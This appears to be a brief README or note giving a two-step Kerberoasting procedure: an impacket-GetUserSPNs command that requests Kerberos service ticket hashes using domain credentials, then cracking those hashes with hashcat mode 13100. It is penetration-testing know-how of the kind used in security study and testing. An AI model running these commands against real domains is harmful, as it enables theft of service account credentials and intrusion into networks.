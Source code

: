## Use this impacket module to perform a Kerberoasting attack

### 1) impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request

### 2) Crack hash with hashcat (Mode 13100)
